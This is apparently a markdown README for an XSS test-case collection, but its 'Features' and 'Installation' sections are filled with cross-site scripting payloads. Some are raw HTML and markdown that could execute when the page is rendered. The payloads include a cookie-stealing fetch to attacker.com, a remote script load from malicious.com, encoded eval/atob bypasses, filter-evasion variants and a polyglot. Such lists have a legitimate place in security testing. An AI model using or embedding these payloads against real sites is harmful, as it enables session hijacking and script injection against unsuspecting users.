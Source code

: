 # Cross-Site Scripting (XSS) Test Cases

## Project Description

This is a test <script>alert('XSS')</script> project for security testing.

## Features

- Feature 1: <img src=x onerror=alert('XSS')>
- Feature 2: <svg/onload=alert('XSS')>
- Feature 3: <iframe src="javascript:alert('XSS')">
- Feature 4: <body onload=alert('XSS')>
- Feature 5: <input onfocus=alert('XSS') autofocus>
- Feature 6: <select onfocus=alert('XSS') autofocus>
- Feature 7: <textarea onfocus=alert('XSS') autofocus>
- Feature 8: <keygen onfocus=alert('XSS') autofocus>
- Feature 9: <video><source onerror="alert('XSS')">
- Feature 10: <audio src=x onerror=alert('XSS')>

## Installation

```html
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
<script src="http://malicious.com/evil.js"></script>
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
```

## Advanced XSS

```javascript
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<img src=x onerror="javascript:window.onerror=alert;throw 'XSS'">
<script>setTimeout('alert("XSS")',100)</script>
<script>setInterval('alert("XSS")',1000)</script>
```

## DOM-Based XSS

```html
<a href="javascript:alert('XSS')">Click me</a>
<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>
<form action="javascript:alert('XSS')"><input type="submit"></form>
```

## Filter Bypass Techniques

- `<ScRiPt>alert('XSS')</sCrIpT>`
- `<script>alert(String.fromCharCode(88,83,83))</script>`
- `<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">`
- `<img src="x" onerror="eval(atob('YWxlcnQoJ1hTUycp'))">`
- `<svg><script>alert&#40;'XSS'&#41;</script></svg>`
- `<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>`
- `<math><mi//xlink:href="data:x,<script>alert('XSS')</script>">`
- `<TABLE><TD BACKGROUND="javascript:alert('XSS')">`
- `<DIV STYLE="background-image: url(javascript:alert('XSS'))">`
- `<DIV STYLE="width: expression(alert('XSS'));">`

## Polyglot Payloads

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

## Markdown XSS

[Click me](javascript:alert('XSS'))
[Click me]('javascript:alert("XSS")')
![XSS](javascript:alert('XSS'))
![XSS](x" onerror="alert('XSS'))

## Event Handlers

- `<body onload=alert('XSS')>`
- `<body onpageshow=alert('XSS')>`
- `<body onfocus=alert('XSS')>`
- `<body onhashchange=alert('XSS')>`
- `<marquee onstart=alert('XSS')>`
- `<details open ontoggle=alert('XSS')>`

